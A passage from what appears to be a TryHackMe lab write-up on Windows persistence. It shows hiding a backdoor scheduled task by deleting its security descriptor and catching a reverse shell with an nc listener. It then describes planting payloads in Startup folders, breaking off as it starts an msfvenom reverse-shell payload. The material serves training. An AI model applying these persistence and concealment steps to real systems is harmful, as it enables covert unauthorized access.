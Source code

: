We will then delete the security descriptor for our task.

If we try to query our service again, the system will tell us there is no such task.

**Victim(cmd)**

```
schtasks /query /tn thm-taskbackdoor
```

<figure><img src="../../.gitbook/assets/image (17) (2).png" alt=""><figcaption></figcaption></figure>

If we start an nc listener in our attacker's machine, we should get a shell back after a minute.

**Kali**

```
nc -lvp 4449
```

<figure><img src="../../.gitbook/assets/image (3) (12).png" alt=""><figcaption></figcaption></figure>

## Logon Triggered Persistence

Some actions performed by a user might also be bound to executing specific payloads for persistence. Windows operating systems present several ways to link payloads with particular interactions. This task will look at ways to plant payloads that will get executed when a user logs into the system.

### Startup folder

Each user has a folder under `C:\Users\<your_username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup` where you can put executables to be run whenever the user logs in. An attacker can achieve persistence just by dropping a payload in there. Notice that each user will only run whatever is available in their folder.

If we want to force all users to run a payload while logging in, we can use the folder under `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp` in the same way.

For this task, let's generate a reverse shell payload using msfvenom.

**Kali**
